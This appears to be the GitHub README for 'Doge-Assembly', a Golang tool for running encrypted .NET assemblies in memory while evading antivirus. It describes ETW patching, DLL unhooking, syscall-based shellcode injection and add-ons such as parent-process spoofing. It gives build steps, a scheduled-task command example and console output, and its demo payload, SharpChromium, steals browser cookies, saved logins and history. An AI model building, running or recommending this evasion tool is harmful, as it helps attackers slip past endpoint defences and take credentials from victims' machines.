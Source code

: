 ![Doge-Assembly](https://socialify.git.ci/timwhitez/Doge-Assembly/image?description=1&font=Raleway&forks=1&issues=1&language=1&logo=https%3A%2F%2Favatars1.githubusercontent.com%2Fu%2F36320909&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

- 🐸Frog For Automatic Scan

- 🐶Doge For Defense Evasion&Offensive Security

# Doge-Assembly
Golang evasion tool, execute-assembly .Net file

## 20211206 加入非.net exe支持，fix bug
支持data文件夹内aeskey.txt与任意文件名exe加密文件识别

支持字符串混淆，详见main.go


## 使用go-donut重构 兼容性更好
原版见[old_version](./old_version)

## Intro
Are you still worrying about antivirus?


## feature
更新etw bypass相关代码，full dll unhooking相关代码，请重新获取依赖

go get -u github.com/timwhitez/Doge-Assembly

使用Golang execute assembly加载C#程序

C#程序编译为静态资源文件，使用AES加密，动态生成密钥

shellcode注入的过程采用direct syscall进行api调用

若想增强免杀效果可自行添加:
```
反沙箱反调试等相关代码

Blockdlls

parent-process-id-spoofing
```

### 写的较为仓促，希望能有大佬帮忙优化


## Usage
注意，若源程序需要多个参数执行，请使用如下方式:
```
in powershell:
Doge-Assembly.exe '-t schtask -c \"C:\Windows\System32\cmd.exe\" -a \"/c calc\" -n Test -m add -o hourly'

in cmd:
Doge-Assembly.exe -t schtask -c \"C:\Windows\System32\cmd.exe\" -a \"/c calc\" -n Test -m add -o hourly
```

```
cd encrypt
go build

you can change sharp.exe to other C# exe file

./encrypt.exe ./sharp.exe

copy version.txt to data/

copy aeskey.txt to data/

copy sharp.exe.cipher to data/

cd ..

go-bindata data/
go build

```

```
demo sharp.exe is SharpChromium.exe
```


## ref
资源文件加载:

- https://github.com/go-bindata/go-bindata

go-donut:

- https://github.com/Binject/go-donut

golang 的 execute assembly 实现:

- https://github.com/lesnuages/go-execute-assembly

bananaphone, golang hells gate:

- https://github.com/C-Sto/BananaPhone

etw bypass:

-https://blog.xpnsec.com/hiding-your-dotnet-etw/

-https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw


## todo



## screenshot
```
PS D:\Doge-Assembly> .\Doge-Assembly.exe
2021/03/29 17:08:14 Reloading c:\windows\system32\kernel32.dll...
2021/03/29 17:08:14 Made memory map RWX
2021/03/29 17:08:14 DLL overwritten
2021/03/29 17:08:14 Restored memory map permissions
2021/03/29 17:08:14 Reloading c:\windows\system32\kernelbase.dll...
2021/03/29 17:08:14 Made memory map RWX
2021/03/29 17:08:14 DLL overwritten
2021/03/29 17:08:14 Restored memory map permissions

All Dll Unhooked!

2021/03/29 17:08:14 Reloading c:\windows\system32\ntdll.dll...
2021/03/29 17:08:14 Made memory map RWX
2021/03/29 17:08:14 DLL overwritten
2021/03/29 17:08:14 Restored memory map permissions
Mess with the banana, die like the... banana?
patching .NET ETW ......
ETW patched!!

[X] Invalid argument passed:

Usage:
    .\SharpChromium.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chromium Cookies, History and Logins.
    full      - The same as 'all'
    logins    - Retrieve all saved credentials that have non-empty passwords.
    history   - Retrieve user's history with a count of each time the URL was
                visited, along with cookies matching those items.
    cookies [domain1.com domain2.com] - Retrieve the user's cookies in JSON format.
                                        If domains are passed, then return only
                                        cookies matching those domains. Otherwise,
                                        all cookies are saved into a temp file of
                                        the format "%TEMP%\$browser-cookies.json"
```

# 🚀Star Trend
[![Stargazers over time](https://starchart.cc/timwhitez/Doge-Assembly.svg)](https://starchart.cc/timwhitez/Doge-Assembly)


## etc
1. 开源的样本大部分可能已经无法免杀,需要自行修改

2. 我认为基础核心代码的开源能够帮助想学习的人
 
3. 本人从github大佬项目中学到了很多
 
4. 若用本人项目去进行：HW演练/红蓝对抗/APT/黑产/恶意行为/违法行为/割韭菜，等行为，本人概不负责，也与本人无关

5. 本人已不参与大小HW活动的攻击方了，若溯源到timwhite id与本人无关

